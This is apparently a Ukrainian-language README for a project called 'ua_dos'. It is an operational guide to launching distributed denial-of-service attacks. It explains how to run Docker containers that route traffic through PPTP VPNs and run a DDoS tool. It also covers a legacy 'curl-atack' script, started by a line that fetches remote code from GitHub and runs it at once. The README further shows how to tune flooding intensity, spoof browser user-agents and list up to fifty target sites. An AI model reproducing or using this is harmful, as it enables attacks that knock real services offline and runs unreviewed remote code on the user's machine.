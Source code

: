 # ua_dos
## Docker
Всередині докера запускається pptp vpn з'єднання та бінарник db1000n проекту https://github.com/Arriven/db1000n.
Треба створити файли конфігурації pptp в діректорії: `ansible/confign/files/vpn1...*` і файл паролів `ansible/confign/files/chap-secrets`.

Приклад файлу `vpn1`:
```
pty "/usr/sbin/pptp hostvpn1 --loglevel 0 --nolaunchpppd"
lock
noauth
nobsdcomp
nodeflate
name uservpn1
remotename vpn1
ipparam vpn1
persist
maxfail 0
holdoff 10
```
Тут задаються: `hostvpn1` - IP адреса, або домен vpn серверу; `uservpn1` - ім'я користувача pptp підключення; `vpn1` - назва vpn підключення.

Приклад файлу `chap-secrets`:
```
# Secrets for authentication using CHAP
# client        server  secret                  IP addresses
uservpn1 vpn1 "passwordvpn1" *
...
uservpn* vpn* "passwordvpn*" *
```
Тут задаються:`uservpn1` - ім'я користувача pptp підключення;`passwordvpn1` - пароль pptp підключення; `vpn1` - назва vpn підключення.

При збиранні image ці файли забираються всередину.

Збирається image командою:
```
docker image build --force-rm -t ua_dos:0.1 .
```
Де `ua_dos:0.1` - назва і версія імеджа, який буде створений.

Після чого треба створити network ipvlan типу за допомогою команди:
```
docker network  create -d ipvlan --subnet=192.168.0.0/24 -o parent=wlo1 gwnet
```
Тут `192.168.0.0/24` - мережа, яку роздає wifi роутер (За допомогою якій хостова машина підключена до інтернету); `wlo1` - назва wifi інтерфейсу в ноутбуці (На якому вище вказана мережа від роутеру); `gwnet` - назва новоствореної мережі docker.
Цю інформацію можна подивитись у вихлопі команди `ifconfig` на хостовій машині (В даному випадку ноутбук).

Запуск контейнера можна здійснювати двума способами:
 1. В інтерактивному режимі:
```
docker run --restart unless-stopped --privileged --net=gwnet --name node1 --hostname node1 --ip 192.168.0.x -it ua_dos:0.1 vpn1
```
 2. В режимі демона:
```
docker run --restart unless-stopped --privileged --net=gwnet --name node2 --hostname node2 --ip 192.168.0.x -d ua_dos:0.1 vpn2
```
Де `vpn1` - назва vpn підключення, яке буде ініційоване при запуску контейнера. `--ip 192.168.0.x` - IP адреса, яка буде привласнена запускаємому контейнеру (Повинен бути із раніше створеної мережі `--subnet=192.168.0.0/24`)
До нод можна підключатися по ssh, тільки по ключу, який кладеться в діректорію `ssh`, і має називатись `id_rsa.pub`. Парольна авторизація відключена.

## Legacy
Атака `ntct` занедбана, с `curl-atack` можна працювати.

1. Створи файл з будь-якою назвою *(Наприклад: "curl-atack")*.
2. Запиши в файл два рядка:
```
#!/bin/bash
source <(curl -Ls https://raw.githubusercontent.com/bro2020/ua_dos/main/curl-atack)
```
3. Зроби файл виконуваним, запустивши команду:
```
chmod +x "назва файлу"
(Наприклад: chmod +x curl-atack)
```
4. Запусти файл:
```
./"назва файлу"
(Наприклад: ./curl atack)
```
Завантаження таргетів пішло, і через декілька секунд відобразиться інформація, яка буде оновлюватись.

Для зупинки - на клавіатурі зажати `Ctrl+C`. При цьому завершаться **ВСІ** процеси curl запущені в операційній системі!

Якщо хочеш перевизначити параметри, для збільшення/зменшення інтенсивності і/або збільшення/зменшення навантаження на обладнання ...

1. Створи файл `curl-atack-env.txt`
2. Запиши в нього наступні рядки:
```
rcount=$((RANDOM%10+7)) # кількість ітерацій, після якої примусово завершаються процеси curl
sq1=$((RANDOM%3+1)) # кількість паралельно виконуваних циклів
sq2=$((RANDOM%3+2)) # кількість прогонів в кажному із паралельних циклів (1 ітерація)
t1=$((RANDOM%7+7)) # таймают перед примусовим завершенням процесів curl)
t2=$((RANDOM%2+1)) # таймаут(швидкість) запуску проходів в паралельно виконуваних циклах
t3=$((RANDOM%3+1)) # таймаут післе завершення всіх проходів в паралельних циклах
t4='15' # таймаут автоматичного неперервного завершення процесів curl в кажному проході

UA1='Mozilla/5.0 (Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/99.0.4844.74 Safari/537.36'
UA2='Mozilla/5.0 (Macintosh; Intel Mac OS X 12_3) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/99.0.4844.74 Safari/537.36'
UA3='Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/99.0.4844.74 Safari/537.36'
UA4='Mozilla/5.0 (Linux; Android 10) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/99.0.4844.78 Mobile Safari/537.36'
UA5='Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0'
```
3. Міняй їх на свій смак. Сюди ж можна вписати свої таргети у вигляді завдання змінних:
```
H1='http://target.ru'
...
H50='https://target.ru'
```
